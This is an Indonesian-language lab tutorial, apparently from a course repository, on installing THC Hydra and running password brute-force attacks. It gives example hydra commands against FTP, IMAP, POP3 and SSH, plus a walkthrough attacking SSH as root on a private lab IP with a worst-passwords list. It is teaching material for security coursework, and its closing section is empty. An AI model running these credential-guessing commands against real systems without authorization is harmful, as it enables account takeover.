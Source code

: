 INSTALASI THC HYDRA
-------------------
- **Step 1**    : Clone repository THC Hydra
```
git clone https://github.com/vanhauser-thc/thc-hydra.git
```
- **Step 2**    : Untuk menkonfigurasi, compile dan menginstall Hydra, ketik kode berikut di terminal:
```
cd thc-hydra
./configure
make
make install
```

SUPPORTED PLATFORMS
-------------------
- Semua platform UNIX (Linux, *bsd, Solaris, etc.)
- MacOS
- Windows dengan Cygwin (IPv4 and IPv6)
- Mobile systems based on Linux, MacOS or QNX (e.g. Android, iPhone, Blackberry 10, Zaurus, iPad)

UJI COBA
--------
**Contoh**:
```
  hydra -l user -P passlist.txt ftp://192.168.0.1
  hydra -L userlist.txt -p defaultpw imap://192.168.0.1/PLAIN
  hydra -C defaults.txt -6 pop3s://[2001:db8::1]:143/TLS:DIGEST-MD5
  hydra -l admin -p password ftp://[192.168.0.0/24]/
  hydra -L logins.txt -P pws.txt -M targets.txt ssh
```
Pertama, Siapkan file yang terdiri dari kumpulan password yang dipisahkan oleh baris atau download [disini](assets/ncrack-hydra/500-worst-passwords.txt). Pada uji coba kali ini, kita akan mencoba melakukan _brute force attack_ pada protokol SSH ke ip address `10.151.36.98` dengan asumsi username `root` dan list password menggunakan file yang telah disiapkan, jalankan perintah dibawah ini pada terminal :
```
hydra -l root -P 500-worst-passwords.txt 10.151.36.98 ssh
```
![](/assets/ncrack-hydra/hydra-gagal.png)
Uji Coba gagal karena password yang digunakan tidak berada dalam file [500-worst-passwords.txt](assets/ncrack-hydra/500-worst-passwords.txt), tambahkan password yang digunakan dengan cara:
```
echo "kucinglucu" >> 500-worst-passwords.txt
```
![](/assets/ncrack-hydra/hydra-sukses.png)

KESIMPULAN
----------









